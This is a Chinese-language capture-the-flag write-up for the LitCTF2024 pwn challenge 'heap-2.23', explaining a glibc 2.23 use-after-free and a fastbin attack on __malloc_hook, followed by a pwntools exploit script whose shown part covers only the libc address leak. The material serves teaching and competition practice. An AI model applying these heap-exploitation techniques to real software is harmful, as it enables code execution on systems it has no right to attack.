 ```yaml
---
title: LitCTF2024-wp
date: 2024-06-03 00:43:27
category: wp
tags:
---
```

# Pwn
## heap-2.23
### 思路

glibc2.23，没有tcache，delete函数中有个UAF漏洞

1. 利用unsorted bin 泄露libc基址
2. 修改释放到fastbin的堆块的fd指针，利用错位出0x7f绕过fastbin的分配检测，使堆分配到`__malloc_hook`附近，覆盖 `__malloc_hook`为one_gadget
3. 执行malloc获取shell

### exp
```python
from pwn import *

context.terminal =['tmux','splitw','-h']
context.log_level = 'debug'

p = process("./heap")
#p = remote("node3.anna.nssctf.cn",28132)

elf = ELF("./heap")
libc = ELF("./libc.so.6")

def create(index,size):
	p.sendlineafter(b">>",b'1')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'size? ',str(size).encode())

def delete(index):
	p.sendlineafter(b">>",b'2')
	p.sendlineafter(b'idx? ',str(index).encode())
	
def show(index):
	p.sendlineafter(b">>",b'3')
	p.sendlineafter(b'idx? ',str(index).encode())
	
def edit(index,content):
	p.sendlineafter(b">>",b'4')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'content : ',content)


# leak libc_base
create(0,0x200)
create(1,0x10)
delete(0)
show(0)

p.recvuntil(b'content : ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 3951480
log.success(hex(libc_base))
```